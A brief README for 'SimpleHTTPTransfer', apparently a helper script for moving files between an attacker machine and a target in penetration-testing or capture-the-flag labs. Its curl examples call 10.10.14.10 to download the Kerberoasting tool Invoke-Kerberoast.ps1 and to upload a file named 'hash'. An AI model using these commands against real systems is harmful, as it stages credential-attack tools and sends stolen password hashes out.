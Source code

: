 # SimpleHTTPTransfer

Just a little script to simplify the file transfer from or to a remote server.
Add it to your PATH and just execute it in the folder where you want to download/upload files.

## List
```curl http://10.10.14.10:5000/```

## Download

```curl http://10.10.14.10:5000/Invoke-Kerbeoast.ps1 > Invoke-Kerberoast.ps1```

## Upload

```curl http://10.10.14.10:5000/ -F 'file=@hash'```
